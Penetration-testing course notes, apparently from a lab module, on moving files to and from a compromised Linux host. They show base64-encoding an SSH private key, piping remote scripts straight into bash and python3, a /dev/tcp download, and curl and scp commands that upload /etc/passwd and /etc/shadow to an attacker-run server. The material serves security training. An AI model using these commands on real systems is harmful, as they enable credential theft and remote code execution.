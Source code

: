 ## Base64 Encoding / Decoding
```sh
$ cat id_rsa |base64 -w 0;echo

LS0tLS1CRUdJTiBP <SNIP>
```

```sh
$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

#### Linux - Decode the File
```sh
$ echo -n 'LS0tLS1CRUdJTi <SNIP>'
```

#### Linux - Confirm the MD5 Hashes Match
```sh
$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

## Web Downloads with Wget and cURL
```sh
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

```sh
$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
* Fileless means we do not need to download a file to execute it

**Note:** Some payloads such as `mkfifo` write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS

#### Fileless Download with cURL
```sh
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

#### Fileless Download with wget
```sh
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```

## Download with Bash (/dev/tcp)
#### Connect to the Target Web server
```sh
$ exec 3<>/dev/tcp/10.10.10.32/80
```

#### HTTP GET Request
```sh
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response
```sh
$ cat <&3
```

## SSH Downloads
* Comes with `SCP` utility for remote file transfer
* `SCP` (secure copy)
	* Copy files and directories between two hosts
	* Very similar to `copy` or `cp`
	* We need to specify a username, the remote IP address or DNS name, and the user's credentials

#### Enabling the SSH Server
```sh
$ sudo systemctl enable ssh

Synchronizing state of ssh.service with SysV service script with /lib/systemd/systemd-sysv-install.
Executing: /lib/systemd/systemd-sysv-install enable ssh
Use of uninitialized value $service in hash element at /usr/sbin/update-rc.d line 26, <DATA> line 45
...SNIP...
```

#### Starting the SSH Server
```sh
$ sudo systemctl start ssh
```

#### Checking for SSH Listening Port
```sh
$ netstat -lnpt

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
```

#### Linux - Downloading Files Using SCP
```sh
$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

## Web Upload
* We can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python `HTTP.Server` module, which includes a file upload page

#### Pwnbox - Start Web Server
```sh
$ python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

#### Pwnbox - Create a Self-Signed Certificate
```sh
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

#### Pwnbox - Start Web Server
```sh
$ mkdir https && cd https
$ python3 -m uploadserver 443 --server-certificate /root/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

#### Linux - Upload Multiple Files
* From our compromised machine, we upload `/etc/passwd` and `/etc/shadow` 
*  `--insecure` because we used a self-signed certificate

```sh
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
#### Linux - Creating a Web Server with Python3
```sh
$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```sh
$ python2.7 -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```sh
$ php -S 0.0.0.0:8000

[Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

```sh
$ ruby -run -ehttpd . -p8000

[2022-05-23 09:35:46] INFO  WEBrick 1.6.1
[2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

#### Download the File from the Target Machine onto the Pwnbox
```sh
$ wget 192.168.49.128:8000/filetotransfer.txt

--2022-05-20 08:13:05--  http://192.168.49.128:8000/filetotransfer.txt
Connecting to 192.168.49.128:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 0 [text/plain]
Saving to: 'filetotransfer.txt'

filetotransfer.txt                       [ <=>                                                                  ]       0  --.-KB/s    in 0s      

2022-05-20 08:13:05 (0.00 B/s) - ‘filetotransfer.txt’ saved [0/0]
```

## SCP Upload
* If `SSH` for outbound connections allowed
* We can use an SSH server with `scp` for uploads

#### File Upload using SCP
```sh
$ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/

plaintext@192.168.49.128's password: 
passwd         
```
